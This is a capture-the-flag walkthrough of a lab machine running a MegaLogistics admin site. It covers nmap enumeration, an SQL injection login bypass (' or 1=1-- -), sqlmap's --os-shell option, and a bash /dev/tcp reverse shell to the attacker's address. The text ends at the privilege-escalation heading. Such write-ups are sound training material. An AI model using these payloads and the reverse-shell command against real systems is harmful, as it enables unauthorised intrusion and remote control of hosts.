

# Enumeration: 
```bash
Nmap scan report for 10.10.10.236
Host is up (0.019s latency).

PORT     STATE SERVICE       VERSION
21/tcp   open  ftp           FileZilla ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-r-xr-xr-x 1 ftp ftp      242520560 Feb 18  2020 docker-toolbox.exe
| ftp-syst: 
|_  SYST: UNIX emulated by FileZilla
22/tcp   open  ssh           OpenSSH for_Windows_7.7 (protocol 2.0)
| ssh-hostkey: 
|   2048 5b:1a:a1:81:99:ea:f7:96:02:19:2e:6e:97:04:5a:3f (RSA)
|   256 a2:4b:5a:c7:0f:f3:99:a1:3a:ca:7d:54:28:76:b2:dd (ECDSA)
|_  256 ea:08:96:60:23:e2:f4:4f:8d:05:b3:18:41:35:23:39 (ED25519)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
443/tcp  open  https         Apache/2.4.38 (Debian)
|_http-server-header: Apache/2.4.38 (Debian)
| ssl-cert: Subject: commonName=admin.megalogistic.com/organizationName=MegaLogistic Ltd/stateOrProvinceName=Some-State/countryName=GR
| Not valid before: 2020-02-18T17:45:56
|_Not valid after:  2021-02-17T17:45:56
445/tcp  open  microsoft-ds?
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: 2m48s
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2021-04-23T17:23:07
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 69.77 seconds
```
</br>

**Initial Shell:** </br>
I went to the webpage on https://10.10.10.236/ and saw a website for a company called MegaLogistics. </br>
On the nmap scan, we see a commonName=```admin.megalogistic.com``` , so I added it to the /etc/host file, and tried to get inside: </br>
 </br>
It looks like a login page, I tried to see if it was vulnearble to SQL Injections using ```'``` on the password field, and it displayed an error message: </br>
```bash
Warning: pg_query(): Query failed: ERROR: unterminated quoted string at or near “’’’);” LINE 1: …FROM users WHERE username = ‘admin’ AND password = md5(‘’’); ^ in /var/www/admin/index.php on line 10

Warning: pg_num_rows() expects parameter 1 to be resource, bool given in /var/www/admin/index.php on line 11
```
</br>

I used this payload: ```' or 1=1-- -``` and successfully bypassed the login form: </br>
 </br>
I decided to use sqlmap for the SQL Enumeration but since it's a blind injection it was fairly difficult and i failed to enumerate it manually. </br>
I captured the request with burpsuite, and copied it to an empty file and then used this command: </br>
```sqlmap -r request.txt --dbs --force-ssl``` Sqlmap identified that the login page is vulnerable to SQL Injection but unfourtanetly I couldn't find anything useful. </br>
In some rare cases, sqlmap can obtain a operating system shell with flag ```--os-shell``` , I tried it out: </br>
```bash
sqlmap -r ./request.txt --dbs --os-shell --force-ssl --timeout 1000000000
```
</br>
It worked! to get a reverse shell, I used this command ```bash -c 'bash -i &> /dev/tcp/10.10.14.21/9001 0>&1'``` </br>
 </br>
#Privilege Escalation


